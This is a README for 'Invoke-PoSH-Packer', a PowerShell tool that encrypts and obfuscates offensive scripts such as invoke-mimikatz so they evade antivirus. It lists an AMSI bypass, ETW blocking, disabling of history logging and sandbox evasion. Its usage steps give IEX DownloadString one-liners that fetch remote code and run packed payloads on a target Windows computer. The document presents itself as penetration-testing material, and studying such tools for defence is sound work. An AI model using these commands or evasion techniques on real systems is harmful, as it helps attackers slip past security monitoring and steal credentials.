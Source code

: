 ### Invoke-PoSH-Packer.ps1
--------------------------------------
'Invoke-PoSH-Packer' allows to pack and encrypt offensive PowerShell scripts in order to bypass AV solutions such as Windows Defender.

#### FEATURES
  - AES encryption and GZip/Deflate compression (based on 'Xencrypt')
  - AMSI bypass (pseudo random)
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging
  - Basic sandbox evasion techniques (optional)
    - stop/exit if the PowerShell script is not run on a domain-joined Windows computer 
    - stop/exit if the PowerShell session is being debugged (detection based on "Test-Path Variable:PSDebugContext")
    - wait for 60 seconds before execution
  
#### USAGE
  - STEP 1. Generate a packed & encrypted version of a PowerShell script (e.g. invoke-mimikatz.ps1, invoke-rubeus.ps1) stored locally or on a remote web server
```
[*] First load the packer
    PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/JFR-C/Windows-Penetration-Testing/master/Defense%20evasion%20(examples)/Invoke-PoSH-Packer/Invoke-PoSH-Packer.ps1');

[*] Then "pack/obfuscate" a PowerShell script stored locally (with or without the sandbox checks enabled)
    PS C:\> Invoke-PoSH-Packer -FilePath C:\path\script-to-pack.ps1 -OutFile C:\path\Packed-script.ps1 
    --- or ---
    PS C:\> Invoke-PoSH-Packer -FilePath C:\path\script-to-pack.ps1 -OutFile C:\path\Packed-script.ps1 -sandbox

[*] Or download and "pack/obfuscate" a PowerShell script stored on a remote web server (with or without the sandbox checks enabled)
    PS C:\> Invoke-PoSH-Packer -FileUrl https://URL/script-to-pack.ps1 -OutFile C:\path\Packed-script.ps1  
    --- or ---
    PS C:\> Invoke-PoSH-Packer -FileUrl https://URL/script-to-pack.ps1 -OutFile C:\path\Packed-script.ps1 -sandbox
```
#### 
  - STEP 2. Download & execute the packed & encrypted PowerShell script on a target Windows computer
```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://URL/Packed-script.ps1'); Invoke-method-of-your-original-script

--- or (not recommended) ---
PS C:\> WGET -URI https://URL/Packed-script.ps1 -OutFile C:\temp\Packed-script.ps1
PS C:\> Import-Module C:\temp\Packed-script.ps1
PS C:\> Invoke-method-of-your-original-script
``` 

#### LICENSE
  - GNU General Public License v3.0
